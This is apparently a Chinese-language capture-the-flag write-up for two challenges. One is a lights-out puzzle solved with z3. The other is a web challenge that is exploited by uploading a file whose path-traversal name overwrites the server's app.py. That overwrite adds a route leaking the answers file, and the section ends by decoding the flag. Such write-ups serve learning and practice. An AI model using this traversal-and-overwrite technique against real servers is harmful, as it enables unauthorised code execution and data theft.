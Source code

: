 ## 关灯

不要跟我说什么线性方程组、`GF(2)`、高斯消元，老夫从来都是 z3 [一把梭](./24-关灯/solve.py)！

## 禁止内卷

`POST /submit` 端点用了 `os.path.join`，可以路径穿越写任意文件。题目又说加了
`--reload`，所以可以改服务代码。名字 `app.py` 是根据搜索结果猜的。

```Python
import requests

url = 'https://chal02-eg9c8e2o.hack-challenge.lug.ustc.edu.cn:8443/submit'
with requests.Session() as session:
    files = {'file': ('../../../../../tmp/web/app.py', open('mod.py', 'rb'))}
    r = session.post(url, files=files)
    print(r.status_code)
    print(r.headers)
    print(r.text)
```

```diff
+ @app.route("/answers", methods=["GET"])
+ def answers():
+     with open("answers.json") as f:
+         return f.read()
+
```

```Python
l = [37, 43, 32, 38, 58, 52, 45, 46, -32, -32, -32, -32, 30, 36, 50, 49, 36, 53, 36, 49, 30, 45, 46, 54, 30, 20, 30, 49, 52, 45, 30, 12, 24, 30, 34, -17, 35, 36, 36, -17, -8, -17, -9, 35, -15, -9, -14, -11, 60, 20, 30, 22, 20, 58, 39, 10, 51, 53, 34, 42, 95, 36, 75, 83, 74, 21, 86, 97, 30, 15, 16, 38, 5, 66, 88, 74, 74, 15, 68, 92, 38, 23, 86, 69, 83, 43, 73, 88, 24, 20, 57, 11, 6, 59, 8, 65, 11, 78, 20, 24, 87, 59, 62, 32, 16, 24, 40, 49, 61, 60, 86, 12, 63, 65, 57, 66, 47, 71, 21, 80, 19, 65, 78, 68, 62, 50, 91, 43, 67, 65, 18, 44, 96, 83, 79, 75, 21, 25, 26, 29, 36, 55, 8, 90, 28, 20, 6, 76, 42, 5, 52, 97, 42, 65, 19, 95, 86, 19, 60, 91, 72, 32, 99, 44, 15, 68, 14, 7, 74, 56, 79, 30, 69, 94, 42, 86, 9, 28, 74, 49, 23, 55, 14, 56, 54, 35, 27, 87, 97, 51, 51, 44, 37, 33, 93, 27, 67, 79, 26, 24, 12, 44, 94, 78, 79, 62, 96, 82, 48, 41, 59, 98, 99, 23, 15, 92, 3, 13, 74, 25, 100, 82, 2, 35, 91, 48, 52, 46, 16, 42, 56, 57, 73, 44, 10, 3, 58, 21, 79, 83, 30, 71, 49, 86, 47, 58, 83, 22, 18, 42, 98, 83, 46, 43, 74, 31, 90, 90, 95, 10, 72, 48, 87, 16, 0, 64, 14, 9, 46, 82, 4, 1, 36, 80, 18, 33, 40, 72, 10, 76, 75, 94, 46, 68, 74, 45, 38, 87, 99, 41, 42, 48, 10, 76, 60, 4, 68, 41, 25, 21, 1, 96, 13, 32, 96, 59, 11, 42, 14, 74, 78, 47, 63, 59, 54, 59, 64, 15, 86, 68, 93, 99, 72, 28, 8, 73, 24, 33, 29, 90, 59, 52, 70, 41, 81, 23, 32, 55, 23, 15, 20, 86, 31, 3, 6, 97, 81, 56, 27, 14, 88, 79, 59, 91, 49, 14, 98, 66, 82, 58, 97, 42, 36, 72, 17, 45, 85, 55, 83, 97, 41, 50, 12, 69, 35, 21, 65, 25, 32, 94, 75, 86, 44, 69, 83, 57, 31, 56, 93, 47, 47, 23, 38, 16, 90, 8, 97, 4, 90, 82, 58, 85, 45, 90, 66, 87, 5, 93, 53, 66, 16, 76, 45, 89, 69, 47, 88, 85, 88, 28, 39, 70, 65, 9, 21, 62, 87, 4, 73, 40, 34, 30, 64, 31, 20, 6, 96, 27, 82, 27, 60, 45, 6, 40, 54, 2, 23, 3, 45, 53, 31, 30, 65, 89, 45, 24, 27, 84, 79, 11, 90, 23, 78, 100, 95, 87, 28, 100, 44, 64, 73, 17, 5, 73, 8, 62, 3, 63, 85, 37, 33, 49, 79, 39, 49, 44, 1, 100, 46, 92, 10, 15, 11, 78, 83, 97, 74, 27, 30, 82]
''.join(chr(d + 65) for d in l)
'flag{uno!!!!_esrever_now_U_run_MY_c0dee0908d2836}U_WU{hKtvck\xa0e\x8c\x94\x8bV\x97¢_PQgF\x83\x99\x8b\x8bP\x85\x9dgX\x97\x86\x94l\x8a\x99YUzLG|I\x82L\x8fUY\x98|\x7faQYir~}\x97M\x80\x82z\x83p\x88V\x91T\x82\x8f\x85\x7fs\x9cl\x84\x82Sm¡\x94\x90\x8cVZ[^exI\x9b]UG\x8dkFu¢k\x82T\xa0\x97T}\x9c\x89a¤mP\x85OH\x8by\x90_\x86\x9fk\x97J]\x8brXxOywd\\\x98¢ttmfb\x9e\\\x84\x90[YMm\x9f\x8f\x90\x7f¡\x93qj|£¤XP\x9dDN\x8bZ¥\x93Cd\x9cquoQkyz\x8amKD{V\x90\x94_\x88r\x97p{\x94WSk£\x94ol\x8b`\x9b\x9b\xa0K\x89q\x98QA\x81OJo\x93EBe\x91Sbi\x89K\x8d\x8c\x9fo\x85\x8bng\x98¤jkqK\x8d}E\x85jZVB¡Na¡|LkO\x8b\x8fp\x80|w|\x81P\x97\x85\x9e¤\x89]I\x8aYb^\x9b|u\x87j\x92XaxXPU\x97`DG¢\x92y\\O\x99\x90|\x9crO£\x83\x93{¢ke\x89Rn\x96x\x94¢jsM\x86dV\x82Za\x9f\x8c\x97m\x86\x94z`y\x9eppXgQ\x9bI¢E\x9b\x93{\x96n\x9b\x83\x98F\x9ev\x83Q\x8dn\x9a\x86p\x99\x96\x99]h\x87\x82JV\x7f\x98E\x8aic_\x81`UG¡\\\x93\\}nGiwCXDnv`_\x82\x9anY\\\x95\x90L\x9bX\x8f¥\xa0\x98]¥m\x81\x8aRF\x8aI\x7fD\x80\x96fbr\x90hrmB¥o\x9dKPL\x8f\x94¢\x8b\\_\x93'
```
